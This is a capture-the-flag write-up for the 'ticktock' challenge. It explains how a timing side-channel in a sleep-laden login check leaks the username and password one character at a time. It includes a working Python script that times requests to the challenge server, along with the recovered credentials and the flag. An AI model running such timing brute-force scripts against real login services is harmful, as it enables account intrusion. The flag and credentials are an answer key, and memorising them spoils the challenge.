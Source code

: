 # ticktock
by Halogen
> Looks like you can login without any extra hints. Just remember to keep track of the time you spend on this challenge. Dont get too carried away!
## Solution
This had 0 solves until the admin dropped their insane hint
![hint.png|center](./assets/hint.png)
<center>🙏 Thank you @bbbb 🙏</center>

Woah! Look at all the `asyncio.sleep`. Wonder if we could exploit that?🤔oh we could, with a side channel attack called timing attack!

# Timing Attack
> "The more something matches, the longer it takes to distinguish"

While we could just randomly submit our passwords and usernames, hoping for RNGesus, we could also try and get more information indirectly. One such info could be the time taken to check string equality (especially with allothose `asyncio.sleep`. 

Let us just take `return` statements as instant, and every check takes 0.01s.

First check is string length. If our string length were correct it would take 0.01s longer (significant when program runs in miliseconds). So by trying every string length, we could see for which string length the website took the longest to respond.

After getting that correct, we use the same idea on each character, starting from the front. If it were right, then the website response would take 0.01s longer than for every other character. Rinse and Repeat, until you got the username and then move on to the password.

**Sample Script (for `pwd`)**
```python
# Answers to find
usr = "0p3nr4leaf"
pwd = "r1g3boj8455871326i3w"

# Imports
import string, requests

i = 0
while i != len(pwd):

	# Keep a list of timings for each character
	result = []

	# For each character
	for c in string.ascii_lowercase + string.digits:

		# Sub it in and check timing
		r = requests.get(f"http://157.245.52.169:31662/flag?username={usr}&password={pwd[:i] + c + pwd[i+1:]}")

		# Add it to timings
		result.append((r.elapsed.total_seconds(), c))

	# Sort by timing
	result.sort()
	
	# Gets the character (slowest character)
	ans = result[-1]
	pwd = pwd[:i] + ans[1] + pwd[i+1:]

	# Slowly print out answer and increment
	print(pwd)
	i += 1
```
At this point each request is taking 2 seconds, a significant amount of time. But alast, we got the username and password. After using the retrieved username and password we get the flag 🚩!

Flag: `STF22{Play_OpenRA_d44149ca5ec9b17d}`